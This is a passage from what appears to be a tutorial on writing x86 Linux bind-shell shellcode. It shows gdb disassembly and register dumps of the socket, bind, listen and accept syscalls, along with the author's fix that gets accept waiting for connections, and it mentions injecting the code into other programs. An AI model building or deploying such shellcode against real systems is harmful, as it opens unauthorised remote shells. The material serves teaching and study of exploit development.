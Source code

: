```
   0x0804806c <+12>:    mov    $0x167,%ax
   0x08048070 <+16>:    int    $0x80
   0x08048072 <+18>:    xchg   %eax,%esi
   0x08048073 <+19>:    push   %edx
   0x08048074 <+20>:    pushw  $0x8813
   0x08048078 <+24>:    push   %bx
   0x0804807a <+26>:    mov    %esp,%ecx
   0x0804807c <+28>:    xchg   %ebx,%esi
   0x0804807e <+30>:    mov    $0x10,%dl
   0x08048080 <+32>:    mov    $0x169,%ax
   0x08048084 <+36>:    int    $0x80
   0x08048086 <+38>:    xchg   %ecx,%edx
   0x08048088 <+40>:    mov    $0x16b,%ax
   0x0804808c <+44>:    int    $0x80
   0x0804808e <+46>:    xor    %ecx,%ecx
   0x08048090 <+48>:    mov    $0x16c,%ax
   0x08048094 <+52>:    int    $0x80
   0x08048096 <+54>:    xchg   %eax,%ebx
   0x08048097 <+55>:    mov    $0x2,%cl
End of assembler dump.
(gdb) break *0x08048094
Breakpoint 2 at 0x8048094
(gdb) c
Continuing.

Breakpoint 2, 0x08048094 in _start ()
(gdb) info registers
eax            0x16c    364
ecx            0x0      0
edx            0xffffd6f8       -10504
ebx            0x3      3
esp            0xffffd6f8       0xffffd6f8
ebp            0x0      0x0
esi            0x2      2
edi            0x0      0
eip            0x8048094        0x8048094 <_start+52>
eflags         0x246    [ PF ZF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x0      0
(gdb)
```
see the 0x2 in ESI? I set that to 0 and boom! my accept call was working
```
(gdb) set $esi = 0
(gdb) c
Continuing.

```
The program is now waiting for connections. I now can either xor ESI or use EDI to store the
server socket fd. I chose to use EDI instead however on second thoughts the
program this shellcode may be instered into may have already set ESI so its best
to xor it lets look at the code for the accept call


[socket]: https://linux.die.net/man/7/socket  "Socket Man page docs"
[bind]: https://linux.die.net/man/7/bind  "Bind Man page docs"
[listen]: https://linux.die.net/man/7/listen  "listen Man page docs"
[bind]: https://linux.die.net/man/7/bind  "bind Man page docs"
[accept]: https://linux.die.net/man/7/accept  "accept Man page docs"
[dup2]: https://linux.die.net/man/7/dup2  "dup2 Man page docs"
[execve]: https://linux.die.net/man/7/execve  "execve Man page docs"